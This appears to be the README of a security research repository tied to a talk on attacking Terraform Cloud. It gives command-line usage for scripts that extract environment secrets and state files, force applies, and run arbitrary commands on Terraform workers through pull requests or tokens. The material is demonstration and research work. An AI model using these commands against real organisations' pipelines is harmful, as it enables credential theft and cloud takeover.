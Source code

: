 This repository contains scripts to demonstrate the vulnerabilities shown in our associated talk: [Attacking and Defending Infrastructure with Terraform: How we got admin across cloud environments](https://docs.google.com/presentation/d/18wF-NMqr5-0nC4O8MfFi_mU3F1cx1L3vLHH6Dc6w4Q8/).

There are two scenarios where you can use these scripts:
* When you don't have access to TFC/TFE, or you don't have a token, but **you can create a PR** to a github repository linked to TFC/TFE and speculative plans are run automatically.
* When you can **have access to a Terraform Cloud workspace** and you have a valid token to do so.


## Scenario 1: You can create a PR in a VCS linked with TFC/TFE 
For this scenario use the script: **PR_attack.py**.

Note: You still needs access to TFC in order to read the output of the attacks. But they could also execute arbitrary commands and exfiltrate the results to a C2 they control.

### Exfiltrate secrets
Access the secrets from the environment variables.
```sh
python3 PR_attack.py 
    --repo "git@github.com:CryptoExchangeCo/website.git" 
    --folder "dev" 
    --get_envs
```
Demo

![Demo 1](demos/demo1.gif)

### Retrieve the state file
Get the state file for the current workspace.
```sh
python3 PR_attack.py 
    --repo "git@github.com:CryptoExchangeCo/website.git"
    --folder "dev"
    --get_state_file
```

### Retrieve the state file for a different workspace
Get the state file for a different workspace in the same organization.
```sh
python3 PR_attack.py 
    --repo "git@github.com:CryptoExchangeCo/website.git" 
    --folder "dev" 
    --get_state_file_from_workspace "website_prod"
```
Demo

![Demo 2](demos/demo2.gif)


### Apply on plan
It performs an apply on plan using a tf file as an input.
```sh
python3 PR_attack.py 
    --repo "git@github.com:CryptoExchangeCo/website.git" 
    --folder "dev" 
    --apply_on_plan "templates/s3_bucket.tf"
```
Demo

![Demo 3](demos/demo3.gif)


### Execute arbitrary command
Execute an arbitrary command in the TF worker.
```sh
python3 PR_attack.py 
    --repo "git@github.com:CryptoExchangeCo/website.git" 
    --folder "dev" 
    --exec_command "id;env;hostname"
```

## Scenario 2: Access to TFC/TFE
For this scenario use the script: **TF_attack.py**.
    
The usage is very similar to the previous scenario. To retrieving secrets from environment variables you will run:
```sh
python3 TF_attack.py 
    --hostname "app.terraform.io" 
    --organization "CryptoExchangeCo"
    --workspace "website_dev"
    --get_envs
```

